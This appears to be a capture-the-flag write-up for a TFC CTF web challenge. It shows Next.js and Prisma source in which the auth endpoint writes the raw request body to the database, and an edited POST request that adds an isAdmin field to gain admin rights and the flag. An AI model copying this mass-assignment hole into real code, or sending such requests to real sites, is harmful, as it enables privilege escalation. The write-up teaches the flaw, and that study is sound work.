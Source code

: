 # TFC CTF

## WEB

### ARE YOU THE ADMIN?

**Difficulty:** Easy

**Statement:** Do you have what it takes to be the admin?

***

The challenge provides us with the following source code : `index.tsx`

```tsx
import type { GetServerSideProps, NextPage } from "next";
import type { User } from "@prisma/client";
import { prisma } from "../globals/prisma";
import { useState } from "react";
import { useRouter } from "next/router";

type Props = {
  users: (User &
    (
      | {
          flag: string;
          isAdmin: true;
        }
      | {
          flag?: never;
          isAdmin: false;
        }
    ))[];
};

const Home: NextPage<Props> = ({ users }) => {
  const [username, setUsername] = useState("");

  const router = useRouter();

  const create = async () => {
    await fetch("/api/auth", {
      headers: {
        "Content-Type": "application/json",
      },
      method: "POST",
      body: JSON.stringify({
        username,
      }),
    });
    await router.replace(router.asPath);
  };

  return (
    <div>
      <div>Create user:</div>
      <input
        value={username}
        onChange={(event) => setUsername(event.target.value)}
      />
      <button onClick={create}>Create</button>
      <div>Users:</div>
      {users.map((user) => (
        <div key={user.id}>
          <div>Username: {user.username}</div>
          <div>Is admin? {user.isAdmin ? "yes" : "no"}</div>
          {user.isAdmin && <div>{user.flag}</div>}
        </div>
      ))}
    </div>
  );
};

export default Home;

export const getServerSideProps: GetServerSideProps<Props> = async (
  context
) => {
  const users = (await prisma.user.findMany()) as Props["users"];

  for (const user of users) {
    if (user.isAdmin) {
      user.flag = process.env.FLAG!;
    }
  }

  return {
    props: {
      users,
    },
  };
};
```

The file `auth.ts`:
```ts
import { NextApiRequest, NextApiResponse } from "next";
import { prisma } from "../../globals/prisma";

export default async function handler(
  req: NextApiRequest,
  res: NextApiResponse
) {
  const body = req.body;
  await prisma.user.create({
    data: body,
  });
  return res.status(200).end();
```

And the file `schema.prisma`:
```prisma
generator client {
  provider = "prisma-client-js"
}

datasource db {
  provider = "sqlite"
  url      = "file:./app.db"
}

model User {
  id       String  @id @default(uuid())
  username String
  isAdmin  Boolean @default(false)
}
```

Thanks to the source code made available, we can see that it is possible to add the value `isAdmin` with the value `true` in order to authenticate with administrator rights.

When visiting the website and creating a user, the following information is returned:

![image](https://user-images.githubusercontent.com/49941629/182031138-28323457-4a7c-4c20-890c-2ad70b254c66.png)

With the Burp Suite tool, I will modify the POST request to add `isAdmin` value for get the flag!

Default POST request:

```
POST /api/auth HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49374
Content-Length: 23
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49374
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49374/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"username":"Sanlokii"}
```

Modified POST request:

```
POST /api/auth HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49374
Content-Length: 23
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49374
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49374/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"username":"Sanlokii","isAdmin":true}
```

The website get back :

![image](https://user-images.githubusercontent.com/49941629/182031839-013d5fe2-da5f-42e3-9a4e-9beba9a4e190.png)

Flag: `TFCCTF{S4n1t1z3_Y0ur_1nput5!}`
